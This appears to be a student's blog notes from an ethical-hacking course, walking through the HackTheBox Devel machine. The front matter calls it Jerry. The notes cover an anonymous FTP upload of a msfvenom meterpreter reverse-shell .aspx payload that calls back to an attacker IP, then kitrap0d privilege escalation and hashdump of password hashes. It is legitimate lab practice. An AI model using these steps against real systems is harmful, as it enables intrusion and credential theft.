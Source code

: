 ```yaml
---
layout:     post
title:      TCM PEH Hacking Jerry Notes
date:       2021-03-16
summary:    TheCyberMentor's Practical Ethical Hacking course mid-course capstone, hacking HackTheBox Jerry
categories: certs
thumbnail: cogs
tags:
 - certs
 - pwned
---
```

<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Devel_0"></a>HTB Devel</h2>
<p class="has-line-data" data-line-start="2" data-line-end="8">nmap -T4 -A -p- 10.10.10.5<br>
Noted port 21 open<br>
Noted possible web root dir at port 21 contents<br>
Noted port 80<br>
Noted possible default page at port 80<br>
Noted Windows OS</p>
<hr>
<p class="has-line-data" data-line-start="9" data-line-end="21">Visited <a href="http://10.10.10.5:80">http://10.10.10.5:80</a><br>
view source<br>
Noted confirmed default webpage IIS7<br>
dirbuster&amp;<br>
<a href="http://10.10.10.5:80">http://10.10.10.5:80</a><br>
check more threads<br>
usr/share/wordlist/dirbuster/*small.txt<br>
check directories<br>
check files<br>
check recurse<br>
file extention asm, asmx, asp, aspx, txt, zip, bak, rar<br>
start</p>
<hr>
<p class="has-line-data" data-line-start="22" data-line-end="32">cd Desktop<br>
ftp 10.10.10.5<br>
anonymous<br>
anonymous<br>
help<br>
ls<br>
pwd<br>
put dog.jpg<br>
ls<br>
Noted it did copy in dog.jpg</p>
<hr>
<p class="has-line-data" data-line-start="33" data-line-end="43">Googled msfvenom, looked for .asp payload format<br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx &gt; ex.aspx<br>
msfconsole<br>
use exploit/multi/handler<br>
options<br>
set payload windows/meterpreter/reverse_tcp<br>
options<br>
set LHOST 10.10.14.24<br>
set LPORT 4444<br>
run</p>
<hr>
<p class="has-line-data" data-line-start="44" data-line-end="49">ftp 10.10.10.5<br>
anynomous<br>
anonymous<br>
binary<br>
put ex.aspx</p>
<hr>
<h2 class="code-line" data-line-start=50 data-line-end=52 ><a id="http1010105exaspx_50"></a><a href="http://10.10.10.5/ex.aspx">http://10.10.10.5/ex.aspx</a></h2>
<p class="has-line-data" data-line-start="52" data-line-end="86">In metasploit<br>
sysinfo<br>
getuid<br>
Noted not root<br>
hashdump<br>
getsystem<br>
background<br>
search suggester<br>
use post/multi/recon/local_exploit_suggester<br>
set session 1<br>
exploit<br>
use /exploit/windows/local/ms10_015_kitrap0d<br>
options<br>
set session 1<br>
options<br>
exploit<br>
Noted failed, but more options will show now<br>
options<br>
set LHOST 10.10.14.24<br>
set LPORT 4445<br>
exploit<br>
Note failed because listener died<br>
use exploit/multi/handler<br>
options<br>
run<br>
background<br>
use /exploit/windows/local/ms10_015_kitrap0d<br>
set session 2<br>
options<br>
exploit<br>
Noted meterpreter shell<br>
getuid<br>
Noted root<br>
hashdump</p>
